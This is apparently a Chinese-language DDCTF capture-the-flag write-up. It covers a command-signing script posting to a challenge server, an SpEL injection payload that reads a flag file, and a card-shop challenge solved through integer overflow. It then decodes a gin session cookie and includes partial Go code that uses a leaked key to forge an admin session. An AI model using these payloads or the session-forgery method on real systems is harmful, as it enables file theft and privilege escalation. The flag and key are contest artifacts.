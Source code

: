 ```python
signature=base64.b64encode(h.digest()).decode()


burp0_url = "http://117.51.136.197:80/server/command"
burp0_headers = {"User-Agent": "Go-http-client/1.1", "Content-Type": "application/json", "Accept-Encoding": "gzip"}
burp0_json={"signature":signature ,"command": cmd,  "timestamp": s[-10:]}
print(burp0_json)
r=requests.post(burp0_url, headers=burp0_headers, json=burp0_json,proxies={"http":""})
print(r.text)
```

但是在这里我卡住了，因为client是用go写的我也理所当然的认为后端也是用

go写的，于是就去试go的各种eval框架都不行，最后还是在别人的提示下才走出误区（应该写一个测试SSTI，eval等等的fuzz字典），经过一天的折腾后发现是SPeL

去网上找到了Ying师傅的payload

`NEW java.util.Scanner(NEW java.io.BufferedReader(NEW java.io.FileReader(NEW java.io.File('/home/dc2-user/flag/flag.txt')))).nextLine()`

`DDCTF{Q24uf486whGOWN44UtZCjYUgdnnnRaVs}`

## 卡片商店

目标是让我们拿到100个卡片，但是有时间限制，利用借入和借出来获得100个卡片显然是不现实的。

刚开始想的是条件竞争，后来测试后发现不行，在这里我被卡住了。

继续测试发现，这里存在着整数溢出漏洞（卡片数是个大整数，而借入借出是个小整数），我们让卡片数不溢出，而借入数溢出，就可以得到许多卡片。接着我们得到了一个SecKey和获取flag的地址：`/flag`，但是需要我们是admin账号

`session:MTU5OTIyNTI5MXxEdi1CQkFFQ180SUFBUkFCRUFBQV80dl9nZ0FDQm5OMGNtbHVad3dJQUFaM1lXeHNaWFFHYzNSeWFXNW5ERlFBVW5zaWIzZHBibWR6SWpwYlhTd2lhVzUyWlhOMGN5STZXMTBzSW0xdmJtVjVJam93TENKdWIzZGZkR2x0WlNJNk1UVTVPVEl5TlRJNU1Td2ljM1JoY25SZmRHbHRaU0k2TVRVNU9USXlOVEk1TVgwR2MzUnlhVzVuREFjQUJXRmtiV2x1QkdKdmIyd0NBZ0FBfMaqAqFFw43-8z8EcAFY04oenUI0FyhjaW8KZXGH2uSX`

对session进行解密发现,他的格式类似：`base64encode(timestamp|base64urlencode(gob)|check)`

利用https://gitlab.com/drosseau/degob 获得gob内容

`map[interface{}]interface{}{"admin": false,"wallet": "{"owings":[{"OwingMoney":100000,"NeedMoney":100002,"OwingTime":1599223614}],"invests":[{"InvestMoney":100006,"ReceiveMoney":100009,"InvestTime":1599223644}],"money":0,"now_time":1599222955,"start_time":1599222835}"}`

显然我们需要修改admin的值，在云屿师傅的帮助下知道了这是一个gin生成的session

```go
package main

import (
        "github.com/gin-contrib/sessions"
        "github.com/gin-contrib/sessions/cookie"
        "github.com/gin-gonic/gin"
)

func main() {
        r := gin.Default()
        store := cookie.NewStore([]byte("Udc13VD5adM_c10nPxFu@v12"))
        r.Use(sessions.Sessions("session", store))

        r.GET("/incr", func(c *gin.Context) {
                session := sessions.Default(c)
                var count bool
                v := session.Get("admin")
                if v == nil {
                        count = true
                } else {
                        count = v.(bool)
```